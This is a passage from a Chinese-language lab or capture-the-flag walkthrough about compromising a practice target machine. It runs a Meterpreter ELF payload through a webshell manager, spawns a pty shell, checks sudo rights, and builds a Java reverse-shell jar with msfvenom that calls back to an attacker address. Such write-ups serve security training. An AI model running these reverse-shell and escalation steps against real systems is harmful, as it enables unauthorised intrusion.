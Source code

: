 ```
msfconsole  -qr /home/xxb1/linux.rc 
```

蚁剑运行木马文件

```
chmod +x 4444.elf
./4444.elf
```

![image-20220325101520823](https://gitee.com/xxb667/img/raw/master/img/image-20220325101520823.png)

## 3.3 获得shell

```
shell
```

![image-20220325101707728](https://gitee.com/xxb667/img/raw/master/img/image-20220325101707728.png)

## 3.4 切换终端

获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220325102000605](https://gitee.com/xxb667/img/raw/master/img/image-20220325102000605.png)

使用

```
sudo -l
```

命令时

- 可以看到靶机sudo权限可以执行的命令
- 可以看到sudo权限可以执行java

# 4.提权

## 4.1 生成jar包

在目录 **home/xxb1** 用MSF生成一个**jar**包

```
msfvenom —platform java -f jar -p java/shell_reverse_tcp LHOST=192.168.81.131 LPORT=7777 -o payload.jar
```

![image-20220325103623313](https://gitee.com/xxb667/img/raw/master/img/image-20220325103623313.png)
